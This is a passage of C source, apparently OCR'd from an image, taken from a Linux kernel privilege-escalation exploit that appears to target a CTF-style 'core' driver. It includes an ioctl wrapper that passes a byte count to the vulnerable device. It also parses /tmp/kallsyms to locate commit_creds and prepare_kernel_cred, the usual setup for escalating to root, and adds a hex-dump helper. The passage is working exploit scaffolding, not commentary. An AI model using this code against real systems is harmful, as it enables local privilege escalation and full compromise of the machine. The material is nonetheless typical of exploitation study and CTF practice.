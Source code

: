 ```c
}

void core_copy_func(unsigned long long nbytes){
	ioctl(fd, 0x6677889A, nbytes);
}

// This function is used to get the addresses of two key functions from /tmp/kallsyms
void get_function_address(){
	FILE* sym_table = fopen("/tmp/kallsyms", "r");	// including all address of kernel functions
	if(sym_table == NULL){
		printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
		exit(1);
	}
	unsigned long long addr = 0;
	char type[0x10];
	char func_name[0x100];
	// when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
	while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
		if(commit_creds && prepare_kernel_cred)		// two addresses of key functions are all found, return directly.
			return;
		if(!strcmp(func_name, "commit_creds")){		// function "commit_creds" found
			commit_creds = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
		}else if(!strcmp(func_name, "prepare_kernel_cred")){
			prepare_kernel_cred = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
		}
	}
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	int index = 0;
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
```